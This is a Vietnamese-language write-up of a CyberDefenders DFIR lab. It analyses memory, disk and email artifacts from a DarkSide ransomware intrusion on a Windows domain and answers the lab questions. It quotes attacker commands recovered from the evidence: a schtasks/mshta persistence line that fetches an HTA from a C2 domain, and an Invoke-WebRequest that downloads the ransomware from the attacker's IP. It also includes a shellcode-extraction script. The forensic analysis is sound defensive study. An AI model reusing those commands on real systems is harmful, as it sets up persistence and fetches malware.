







**Win2016x64_14393**


# Analysis {#3497b0eb61a48056be41edbcca19187e}


## RAM {#3497b0eb61a4806c872ad548b80d9ab2}


Phân tích ram ta có kết quả


```c++
C:\Users\Administrator\Desktop\Start Here\Tools\Memory Analysis\volatility2.6>vol.exe -f "C:\Users\Administrator\Desktop\Start Here\Artifacts\AD-MEM\memory.dmp" --profile=Win2016x64_14393 kdbgscan
Volatility Foundation Volatility Framework 2.6
**************************************************
Instantiating KDBG using: Kernel AS Win2016x64_14393 (6.4.14393 64bit)
Offset (V)                    : 0xf8030e8f2500
Offset (P)                    : 0x13c6f2500
KdCopyDataBlock (V)           : 0xf8030e7d2e00
Block encoded                 : No
Wait never                    : 0xf7f8886404bf6f34
Wait always                   : 0x7eda9d4011178009
KDBG owner tag check          : True
Profile suggestion (KDBGHeader): Win2016x64_14393
Service Pack (CmNtCSDVersion) : 0
Build string (NtBuildLab)     : 14393.693.amd64fre.rs1_release.1
PsActiveProcessHead           : 0xfffff8030e9013d0 (44 processes)
PsLoadedModuleList            : 0xfffff8030e907060 (157 modules)
KernelBase                    : 0xfffff8030e602000 (Matches MZ: True)
Major (OptionalHeader)        : 10
Minor (OptionalHeader)        : 0
KPCR                          : 0xfffff8030e944000 (CPU 0)
KPCR                          : 0xffffaa00ffbcd000 (CPU 1)
KPCR                          : 0xffffaa00ffe40000 (CPU 2)
KPCR                          : 0xffffaa00ffec3000 (CPU 3)


```


Ra 8 kết quả như chọn cái đầu tiên:

- **`PsActiveProcessHead`****:** Phải lớn hơn 0. (Một hệ điều hành đang sống không thể có 0 tiến trình được).
- **`PsLoadedModuleList`****:** Phải lớn hơn 0. (Phải có các module/driver được nạp).
- **`KernelBase`****:** Phải là `Matches MZ: True`. (Chữ MZ là chữ ký của file thực thi PE trong Windows, chứng tỏ nó đã tìm đúng lõi kernel).
- **`KDBG owner tag check`****:** Nên là `True`.

```c++
Offset (V)                    : 0xf8030e8f2500
Offset (P)                    : 0x13c6f2500
KdCopyDataBlock (V)           : 0xf8030e7d2e00
```


Ta có thể xài: 

- `Offset (V)` : vì vol2,3 dùng địa chỉ ảo
- `KdCopyDataBlock (V)` **Ý nghĩa:** Đây là một địa chỉ ảo (Virtual) khác, trỏ tới một **bản sao (copy)** của cấu trúc KDBG.
	- Dùng trong tường hợp `Block encoded : Yes`, `Offset (V)` sẽ bị lỗi, và lúc đó bạn **bắt buộc** phải dùng địa chỉ `KdCopyDataBlock (V)` để Volatility đọc được dữ liệu gốc.

## Disk {#3497b0eb61a480498f0ff59e42b61a99}


### $MFT {#3497b0eb61a4806fb9fec326ba3c8412}


| Created0x10<br/>2016-07-16 14:08:43            | Created0x30<br/>2021-11-20 01:33:37            |   |
| ---------------------------------------------- | ---------------------------------------------- | - |
| Last Modified0x10<br/>2016-07-16 14:08:43      | Last Modified0x30<br/>2021-11-20 01:33:37      |   |
| Last Record Change0x10<br/>2021-11-24 05:28:22 | Last Record Change0x30<br/>2021-11-20 01:33:37 |   |
| Last Access0x10<br/>2016-07-16 14:08:43        | Last Access0x30<br/>2021-11-20 01:33:37        |   |


Ta tìm được một mớ file exe và dll 








| Entry Number<br/>87220  | Parent Entry Number<br/>87213  | .\Users\administrator\AppData\Local\Temp\DismHost.exe	.exe	 |
| ----------------------- | ------------------------------ | ----------------------------------------------------------- |
| Entry Number<br/>108972 | Parent Entry Number<br/>108970 | File Name<br/>vcredist_x86.exe                              |
|                         |                                |                                                             |


.\Users\administrator\AppData\Local\Temp\DismHost.exe	.exe	


### Prefetch {#3497b0eb61a4809692a8ef59e7128380}

- 

| Run Time<br/>2021-11-23 13:20:12                                                                                                                                                                                                                                                                                                 | **`MIMIKATZ.EXE-E60D5C29.pf`**:                                                                                                                                                                                                                           | `Executable Name<br/>\VOLUME{01d7ddaea1605655-d6a188f8}\USERS\LABIB\DOCUMENTS\MIMIKATZ.EXE`   |
| -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | --------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | --------------------------------------------------------------------------------------------- |
| Run Time<br/>2021-11-22 21:51:34                                                                                                                                                                                                                                                                                                 | **`SHARPHOUND.EXE-F1A89354.pf`**: Đây là bộ thu thập dữ liệu của BloodHound. Attacker dùng nó để lập bản đồ toàn bộ mạng Active Directory (PwnedDC), tìm kiếm các đường dẫn leo thang đặc quyền (Privilege Escalation paths) nhanh nhất đến Domain Admin. | `Executable Name<br/>\VOLUME{01d7ddaea1605655-d6a188f8}\USERS\LABIB\DOWNLOADS\SHARPHOUND.EXE` |
| Run Time<br/>2021-11-22 22:29:47<br/>2021-11-22 22:30:31<br/>2021-11-22 22:30:48<br/>2021-11-22 22:33:56<br/>2021-11-22 22:38:30<br/>2021-11-22 22:40:55<br/>2021-11-22 22:43:10<br/>2021-11-22 22:54:56                                                                                                                         | **`PSEXEC64.EXE-71EB8A0A.pf`**:                                                                                                                                                                                                                           | `Executable Name<br/>\VOLUME{01d7ddaea1605655-d6a188f8}\USERS\LABIB\DOWNLOADS\PSEXEC64.EXE`   |
| Run Time<br/>2021-11-22 20:41:19<br/>2021-11-22 20:43:27<br/>2021-11-22 21:02:36<br/>2021-11-22 21:49:54<br/>2021-11-22 22:43:51<br/>2021-11-23 12:46:14<br/>2021-11-23 13:18:25<br/>2021-11-23 13:30:04                                                                                                                         | **`POWERSHELL.EXE-022A1004.pf`**: Rất có thể đây chính là tiến trình đã chạy lệnh `fsutil` hoặc các script để xóa `$UsnJrnl` và `$LogFile` mà bạn đang điều tra ở bước trước.                                                                             |                                                                                               |
| Run Time<br/>2021-11-23 13:32:44                                                                                                                                                                                                                                                                                                 | **`SCHTASKS.EXE-BA1E321E.pf`**: Dấu hiệu của việc thiết lập Persistence (Cơ chế kiên trì) thông qua Scheduled Tasks, hoặc dùng để thực thi payload dưới quyền System.                                                                                     |                                                                                               |
| Run Time<br/>2021-11-20 18:32:40<br/>2021-11-21 09:21:33<br/>2021-11-21 15:50:05<br/>2021-11-21 23:02:10<br/>2021-11-21 23:09:41<br/>2021-11-22 19:20:26<br/>2021-11-22 19:26:29<br/>2021-11-22 19:33:43<br/>2021-11-22 19:40:45<br/>2021-11-22 20:42:23<br/>2021-11-23 13:12:53<br/>2021-11-23 13:18:16<br/>2021-11-23 22:53:39 | **`RUNDLL32.EXE`** **(nhiều file) &** **`REGSVR32.EXE-E1DBB6D8.pf`**: Thường được dùng để thực thi các malicious DLLs lén lút (ví dụ như payload của Cobalt Strike - một công cụ FIN7 rất hay dùng) hoặc bypass AppLocker qua kỹ thuật Squiblydoo.        |                                                                                               |
| Run Time<br/>2021-11-22 22:44:17                                                                                                                                                                                                                                                                                                 | **`WHOAMI.EXE-824687C3.pf`**: Kiểm tra user hiện tại và các đặc quyền.                                                                                                                                                                                    |                                                                                               |
| Run Time<br/>2021-11-21 09:18:07<br/>2021-11-21 15:49:21<br/>2021-11-21 18:57:05<br/>2021-11-21 22:26:38<br/>2021-11-21 23:11:14<br/>2021-11-22 18:28:30<br/>2021-11-22 18:56:44<br/>2021-11-22 20:30:57                                                                                                                         | **`IPCONFIG.EXE-EEA91845.pf`** **&** **`PING.EXE-167FE968.pf`**: Kiểm tra cấu hình mạng và quét các target lân cận.                                                                                                                                       |                                                                                               |


### AmCache {#3497b0eb61a480b7ad5ee5454a5fb409}

- `c:\users\labib\...`
- `c:\users\administrator\...`
- `c:\users\jinan.s\...`

### ShimCache {#3497b0eb61a480d796b6e068fcba1f7c}


## User {#3497b0eb61a480cda6aff79bccbe030a}


### Labib {#3497b0eb61a4801589c8ceeda14ea6bd}


| Target Name                   | Lnk Name                      | Mru Position | Opened On           |
| ----------------------------- | ----------------------------- | ------------ | ------------------- |
| Outlook.pst                   | Outlook.lnk                   | 0            | 2021-11-21 23:09:55 |
| 20211119103954_BloodHound.zip | 20211119103954_BloodHound.lnk | 0            | 2021-11-19 18:40:16 |
|                               |                               |              |                     |
|                               |                               |              |                     |


bạn có thể thấy `Outlook.pst` và `Employee.xlsx` được mở vào các khung giờ rất sát nhau (23:09 và 19:39 ngày 21/11/2021). File `Employee.xlsx` này có khả năng rất cao chính là payload hoặc mồi nhử mà attacker đã gửi đi.


### EventID {#3497b0eb61a480dab7e3d9ba399c8f37}


Không tìm thấy gì nhiều


### Q1 What is the name of the first malware detected by Windows Defender? {#3497b0eb61a480d49c0ff09851b1ef71}


Exploit:Win32/ShellCode.BN


Type :		Warning
Date :		11/21/2021
Time :		7:03:28 PM
Event :		1116
Computer :	PC01.cyberdefenders.org
: file:_\\vmware-host\Shared Folders\asd\note.txt


Process Name: C:\Windows\System32\notepad.exe


Q2 Provide the date and time when the attacker clicked send (submitted) the malicious email?


Ta tìm thấy file pst ở


`C:\Users\<Username>\Documents\Outlook Files\`pst ở








From: "DHL FINANCE INQUIRY " [ismail@dxmxva.buzz](mailto:ismail@dxmxva.buzz)
Date: Thu, 12 Aug 2021 06:47:48 +0200 


Ta phải trừ đi 2 tiếng: 2021-08-12 04:47


Tiếp tục dùng olevba để phát hiện bên trong có macros gì





Đoạn VBA dịch ra thì chỉ là Hello world mà thôi


phải dùng pcode


```c++
olevba --show-pcode "Unpaid Invoice.xls" > pcode_analysis.txt
```


Ta thấy payload như sau:


Ta dùng một script


```c++
import re
with open("pcode.txt", "r") as file:
    data=file.read()

    hex_strings=re.findall(r'LitDI2\s(0x[0-9A-Fa-f]+)', data)
    shellcode = bytearray()
    for h in hex_strings:
        val=int(h,16)
        shellcode.append(val & 0xFF)
    with open('payload.bin', "wb") as f:
        f.write(shellcode)
    
```


```c++
C:\Users\Administrator\Desktop\Start Here\Tools\Memory Analysis\scdbg>scdbg.exe /f "C:\Users\Administrator\Desktop\Start Here\Artifacts\payload.bin" /findsc
Loaded 33b bytes from file C:\Users\Administrator\Desktop\Start Here\Artifacts\payload.bin
Testing 827 offsets  |  Percent Complete: 99%  |  Completed in 109 ms
0) offset=0x0          steps=MAX    final_eip=7c801d7b   LoadLibraryA
Loaded 33b bytes from file C:\Users\Administrator\Desktop\Start Here\Artifacts\payload.bin
Initialization Complete..
Max Steps: 2000000
Using base offset: 0x401000

4010bd  LoadLibraryA(wininet)
4010cb  InternetOpenA()
4010e7  InternetConnectA(server: 192.168.112.128, port: 8080, )

Stepcount 2000001
```


### Q3 What is the IP address and port on which the attacker received the reverse shell? {#3497b0eb61a480a388d8c4a14a97b5da}


server: 192.168.112.128, port: 8080, )


### Q4 What is the MITRE ID of the technique used by the attacker to achieve persistence? {#3497b0eb61a480589614fe8628b21fec}


Đi tìm nội dung ở consoleHost 


`ConsoleHost_history.txt` file in `D:\Users\administrator\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline`


"C:\Windows\system32\schtasks.exe" /Create /F /SC DAILY /ST 12:00 /TN MicrosoftEdge /TR "c:\Windows\system32\cmd.exe /c 'mshta.exe http://c2.cyberdefenders.org/5EEiDSd70ET0k.hta'"
.\schtasks.exe /Create /F /SC DAILY /ST 12:00 /TN MicrosoftEdge /TR "c:\Windows\system32\cmd.exe /c 'mshta.exe http://c2.cyberdefenders.org/5EEiDSd70ET0k.hta'"


**T1053.005** 


### Q5 What is the attacker's C2 domain name? {#3497b0eb61a480cc9b2bf22d430b3305}


### Q6 What is the name of the tool used by the attacker to collect AD information? {#3497b0eb61a48013bd75fffc350c40b5}


BloodHound


### Q7 What is the PID of the malicious process? {#3497b0eb61a480628a18f5abbc6e6a9d}


... 0xffffba033f4a7080:wsmprovhost.ex                1632    860     22      0 2021-11-20 15:06:08 UTC+0000
.... 0xffffba03419b7800:svchost.exe                  3140   1632      5      0 2021-11-20 15:06:52 UTC+0000


  cmd: "C:\Users\Administrator\Documents\svchost.exe”


svchost phải do services sinh ra


.. 0xffffba033ee98800:svchost.exe             356    664      41      0 2021-11-20 14:12:24 UTC+0000
... 0xffffba0341887800:explorer.exe          2940    356      50      0 2021-11-20 14:20:11 UTC+0000


explorer phải do thằng userinit.exe sinh ra


### Q8 What is the family of ransomware? {#3497b0eb61a48069892fd8a14532b4ed}


`vol.exe -f "C:\Users\Administrator\Desktop\Start Here\Artifacts\AD-MEM\memory.dmp" --profile=Win2016x64_14393 -g 0xf8030e8f2500 procdump -D "C:\Users\Administrator\Desktop\Start Here\Artifacts\AD-MEM\processes”`


vol.exe -f "C:\users\Administrator\Desktop\Start Here\Artifacts\AD-MEM\memmory.dmp" --profile=Win2016x64_14393 -g 0x0000000022e48800 memdump -D "C:\users\Administrator\Desktop\Start Here\Artifacts\AD-MEM\memdump”





Sau đó dùng clamscan check hoặc tính hash





C:\Users\Administrator\Desktop\Start Here\Artifacts\AD-MEM\processes\executable.3140.exe: Win.Packed.DarkSide-9262656-0 FOUND


Darkside


### Q9 What is the command invoked by the attacker to download the ransomware? {#3497b0eb61a480fba36edc1496e4fcd2}


```c++
strings.exe 3140.dmp | Select-String -Pattern "[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}:[0-9]{4}"
```


strings.exe -n 10 3140.dmp | Select-String -Pattern "192.168.112.128:8000" -Context 3,3


Invoke-WebRequest http://192.168.112.128:8000/svchost.exe -OutFile svchost.exe


### Q10 What is the address where the ransomware stores the 567-byte key under the malicious process's memory? {#3497b0eb61a4809f861ffb6c2a7201f4}


Trước hết ta dùng strings -n 567 3140.dmp


cho tôi những chuỗi ký tự nào dính liền nhau và dài đúng bằng hoặc hơn 567 ký tự


lsJTyyTnzJlGQ1I6sfwV6oVcXaRynwN6mWphA7BKXEDIHJcDlhNNHsrxlkpggRChK2nQ7wP0sknJvl37lbqElTopkUywK3QnfJFmqDBSCmFISeWSudjgwxB4kKSp7h4VySHeu4LmDiZXTAh1dbZHWxTtZ0bA6PhCoDrbGkctY4rucITW4IdYUZJC8d2B7SFnr5EA7EoRkajrZW54brM5Kgwqsz67qzH6Hk0Vr3EDcnGzNjGQBapJczIWkgPtMCJdTkeemQ34XH7wawXu3eOGV3uJlBZNoSuaxtDHMGApS8EWsUXhafMW8WxFLAPLCo6pdm7MLcLsVDp9iBXU1sLv2KkGyUJbO0KOmom9f1JREuidviHRfsndEgMFBAjyq5v4VEIraiioAbtWM7eecYaXPVt3rolsBi8mtjxLOpFj73NPPitoIDxBNfHGzXxvRTXi06Pjx9pRnAtjIqoq5wovnHa8uBel8nq8yDJTk7NWdGdsv3yVwV2TmBin7OvFqHN9lweFNJyuziKCVGEtSaglUNudMmpFnNObGlhfh58jQsrQiQZ2d3AOFsi


Sau đó dùng yara scan để phát hiện ra


`vol.exe -f "C:\users\Administrator\Desktop\Start Here\Artifacts\AD-MEM\memory.dmp" --profile=Win2016x64_14393 -g 0xf8030e8f2500 yarascan -p 3140 -Y "lsJTyyTnzJlGQ”` để tìm được vị trí `0x00b5f4a5`


```c++
C:\Users\Administrator\Desktop\Start Here\Tools\Memory Analysis\volatility2.6>vol.exe -f "C:\users\Administrator\Desktop\Start Here\Artifacts\AD-MEM\memory.dmp" --profile=Win2016x64_14393 -g 0x0000000022e48800 yarascan -p 3140 -Y "lsJTyyTnzJlGQ1I6sfwV6oVcXaRynwN6mWphA7BKXEDIHJcDlhN"
Volatility Foundation Volatility Framework 2.6
Rule: r1
Owner: Process svchost.exe Pid 3140
0x00b5f4a5  6c 73 4a 54 79 79 54 6e 7a 4a 6c 47 51 31 49 36   lsJTyyTnzJlGQ1I6
0x00b5f4b5  73 66 77 56 36 6f 56 63 58 61 52 79 6e 77 4e 36   sfwV6oVcXaRynwN6
0x00b5f4c5  6d 57 70 68 41 37 42 4b 58 45 44 49 48 4a 63 44   mWphA7BKXEDIHJcD
0x00b5f4d5  6c 68 4e 4e 48 73 72 78 6c 6b 70 67 67 52 43 68   lhNNHsrxlkpggRCh
0x00b5f4e5  4b 32 6e 51 37 77 50 30 73 6b 6e 4a 76 6c 33 37   K2nQ7wP0sknJvl37
0x00b5f4f5  6c 62 71 45 6c 54 6f 70 6b 55 79 77 4b 33 51 6e   lbqElTopkUywK3Qn
0x00b5f505  66 4a 46 6d 71 44 42 53 43 6d 46 49 53 65 57 53   fJFmqDBSCmFISeWS
0x00b5f515  75 64 6a 67 77 78 42 34 6b 4b 53 70 37 68 34 56   udjgwxB4kKSp7h4V
0x00b5f525  79 53 48 65 75 34 4c 6d 44 69 5a 58 54 41 68 31   ySHeu4LmDiZXTAh1
0x00b5f535  64 62 5a 48 57 78 54 74 5a 30 62 41 36 50 68 43   dbZHWxTtZ0bA6PhC
0x00b5f545  6f 44 72 62 47 6b 63 74 59 34 72 75 63 49 54 57   oDrbGkctY4rucITW
0x00b5f555  34 49 64 59 55 5a 4a 43 38 64 32 42 37 53 46 6e   4IdYUZJC8d2B7SFn
0x00b5f565  72 35 45 41 37 45 6f 52 6b 61 6a 72 5a 57 35 34   r5EA7EoRkajrZW54
0x00b5f575  62 72 4d 35 4b 67 77 71 73 7a 36 37 71 7a 48 36   brM5Kgwqsz67qzH6
0x00b5f585  48 6b 30 56 72 33 45 44 63 6e 47 7a 4e 6a 47 51   Hk0Vr3EDcnGzNjGQ
0x00b5f595  42 61 70 4a 63 7a 49 57 6b 67 50 74 4d 43 4a 64   BapJczIWkgPtMCJd
```


### Q11 What is the 8-byte word hidden in the ransomware process's memory? {#3497b0eb61a48087a5acc44ab2db4de5}


```c++
C:\Users\Administrator\Desktop\Start Here\Tools\Memory Analysis\volatility2.6>vol.exe -f "C:\users\Administrator\Desktop\Start Here\Artifacts\AD-MEM\memory.dmp" --profile=Win2016x64_14393 -g 0x0000000022e48800 volshell -p 3140
Volatility Foundation Volatility Framework 2.6
Current context: svchost.exe @ 0xffffba03419b7800, pid=3140, ppid=1632 DTB=0x2f3e8000
Welcome to volshell! Current memory image is:
file:///C:/users/Administrator/Desktop/Start%20Here/Artifacts/AD-MEM/memory.dmp
To get help, type 'hh()'
>>> proc().Peb.ProcessHeaps.dereference()
<Array 10420224,65536>
>>> db(65536)
0x00010000  63 00 00 30 00 00 6e 00 00 36 00 00 72 00 00 34   c..0..n..6..r..4
0x00010010  00 00 37 00 00 35 00 00 20 01 01 00 00 00 00 00   ..7..5..........
0x00010020  20 01 01 00 00 00 00 00 00 00 01 00 00 00 00 00   ................
0x00010030  00 00 01 00 00 00 00 00 10 00 00 00 00 00 00 00   ................
0x00010040  20 07 01 00 00 00 00 00 00 00 02 00 00 00 00 00   ................
0x00010050  0f 00 00 00 01 00 00 00 00 00 00 00 00 00 00 00   ................
0x00010060  e0 0f 01 00 00 00 00 00 e0 0f 01 00 00 00 00 00   ................
0x00010070  00 80 00 00 00 00 00 00 00 00 00 00 00 00 10 00   ................
>>>
```

- Lệnh `proc().Peb.ProcessHeaps.dereference()` là bạn đang ra lệnh cho Windows: _"Hãy mở cấu trúc PEB (Process Environment Block) của mã độc này ra, tìm cho tôi vùng nhớ Heap (vùng nhớ động) của nó"_.
- Hệ thống trả về `65536` (Đổi sang hệ Hex chính là `0x10000`).
- Lệnh `db(65536)` (Display Bytes) sẽ in dữ liệu tại địa chỉ đó ra màn hình. Và hacker đã giấu cái từ khóa 8-byte kia ngay tại điểm xuất phát (`0x10000`) của vùng nhớ Heap.
- Không thể chạy trên 3140.dmp vì volshell cần bản đồ toàn bộ hệ điều hành tương tự YARAscan.

**`c0n6r475`**


### Q12 What is the ransomware file's internal name? {#3497b0eb61a480d98bb5f2cd5290a870}


calimalimodumator.exe


Cách làm: mở file vacb (virtual address control block)

- Khi chạy file exe chẳng hạn thì không nạp hết dung lượng lên RAM (tốn RAM) mà sẽ cache (chia thành nhiều mảnh nhỏ 256kb). Khi CPU cần đọc code nào thì windows mới copy lên vùng system cache trên RAM.

	→ mỗi mảnh nằm trên RAM là VACB, cấu trúc giống trên ổ cứng nên có thể đọc thông tin

- File img là những bản của chương trình đã bung ra và thực thi trên RAM, tuân theo cấu trúc RAM nên đã biến đổi và không đọc được nữa (nên chỉ hiện một số ít thông tin)
- File dat là file generic, không biết file gì thì tự windows nó đặt thành file này

# Tổng kết {#34a7b0eb61a4801ab7fae044bfea5248}


### 2. Yarascan là gì và tại sao lại "thần thánh" đến vậy? {#34a7b0eb61a4808bb0c5d46695eb5c8e}


**YARA** được mệnh danh là "Dao Thụy Sĩ của nhà nghiên cứu mã độc" (The pattern matching swiss knife for malware researchers).

